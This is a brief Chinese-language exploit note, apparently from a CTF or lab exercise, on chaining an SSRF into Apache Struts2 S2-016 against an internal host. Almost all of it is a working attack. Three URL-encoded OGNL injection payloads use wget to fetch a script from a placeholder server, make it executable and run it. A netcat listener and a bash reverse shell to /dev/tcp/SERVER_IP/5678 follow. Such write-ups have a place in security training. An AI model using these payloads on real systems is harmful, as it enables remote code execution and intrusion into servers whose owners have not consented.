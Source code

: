 ## Struts2
利用S2-016從 http://ssrf.orange.tw:81/ 攻擊 http://172.20.0.6:8080/ 的Apache Struts2
server，使用bash做reverse shell，將reverse shell command包在script內，從server以wget下載script再執行，encode時要encode兩次

### Target
POST: `url=http://172.20.0.6:8080/index.action?redirect:$%7B(new+java.lang.ProcessBuilder(new+java.lang.String%5B%5D%7B'wget','http://my.http.server/revsh.sh'%7D)).start()%7D`

POST : `url=http://172.20.0.6:8080/index.action?redirect:$%7B(new+java.lang.ProcessBuilder(new+java.lang.String%5B%5D%7B'chmod','777','revsh.sh'%7D)).start()%7D`

POST : `url=http://172.20.0.6:8080/index.action?redirect:$%7B(new+java.lang.ProcessBuilder(new+java.lang.String%5B%5D%7B'./revsh.sh'%7D)).start()%7D`
#### Server
```
$ nc -lvp 5678
```
#### Script
```sh
#!/bin/bash
bash -i >& /dev/tcp/SERVER_IP/5678 0>&1
```
